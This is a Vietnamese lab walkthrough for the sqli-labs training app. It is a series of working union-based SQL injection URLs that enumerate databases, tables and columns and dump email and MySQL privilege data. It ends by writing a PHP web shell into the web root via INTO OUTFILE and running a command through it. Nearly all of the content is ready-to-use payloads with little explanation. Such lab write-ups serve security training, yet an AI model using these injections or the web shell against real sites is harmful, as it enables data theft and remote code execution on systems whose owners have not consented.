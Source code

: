 # Một số việc làm với được lesson-1.md

![](../images/lesson1/screenshot.png)

Ta sẽ xem là server sử dụng hệ quản trị cơ sở dữ liệu nào ta nhìn vào port và thấy sử dụng MYSQL 

1. Đăng nhập với giá trị id 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1'
```

![](../images/lesson1/screenshot_13.png)

2. Show tấ cả các DB có trong hệ thống
- Với command
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```

![](../images/lesson1/screen_1.png)

Các DB sẽ cách nhau một dấu phẩy 

3. Show tất cả các bảng của từng DB một 
- Show tất cả các bảng của DB security 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```

![](../images/lesson1/screen_2.png)

- Show tất cả các bảng của DB mysql 
```
http://192.168.80.225//sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```

![](../images/lesson1/screen_3.png)

- Show tất cả các bảng của DB challenges
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/lesson1/screen_4.png)

Các DB khác tương tự và chỉ thay ở tên challenges

4. Show tên các cột trong từng bảng của từng DB 
- Show tên các trường trong bảng users trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 1,1 --+
```

![](../images/lesson1/screen_5.png)

- Show tên các trường trong bảng emails trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='emails' limit 1,1 --+
```

![](../images/lesson1/screen_6.png)

-  Show tên các trường trong bảng uagents trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 --+
```

![](../images/lesson1/screen_8.png)

- Show tên các trường trong bảng referers trong  DB security

```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='referers' limit 1,1 --+
```

![](../images/lesson1/screen_9.png)

- Show dữ liệu tên trường của bảng db trong database mysql 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='mysql' AND table_name='db' limit 1,1 --+
```

![](../images/lesson1/screen_10.png)

Đọc dữ liệu trong một bảng 
- Bảng emails của security 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,group_concat(id),group_concat(email_id) from emails limit 1,1--+
```

![](../images/lesson1/screen_11.png)


- Show dữ liệu trong bảng của  một DB khác 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1'  union SELECT 1,2,group_concat(Host) from mysql.db limit 1,1--+
```

![](../images/lesson1/screen_12.png)

- INTO OUTFILE
- Điều kiện để có thể làm được là phải có một thư mục được cấp quyền thực thi 
```
[root@centos7 ~]# cd /var/www/html/
[root@centos7 html]# mkdir test
[root@centos7 html]# chmod 777 test/
```

```
192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2, "<?php system($_REQUEST['cmd']);?>" INTO OUTFILE '/var/www/html/tests/c.php' --+
```

![](../images/lesson1/screen_13.png)

- thực hiện remote code 
```
192.168.80.225/tests/c.php?cmd=id
```

![](../images/lesson1/screen_14.png)

Tương tự như thế thì đối với các bảng và các DB khác thì ta truy suất tương tự như thế và thay tên các trường các table các DB mà ta mong muốn. 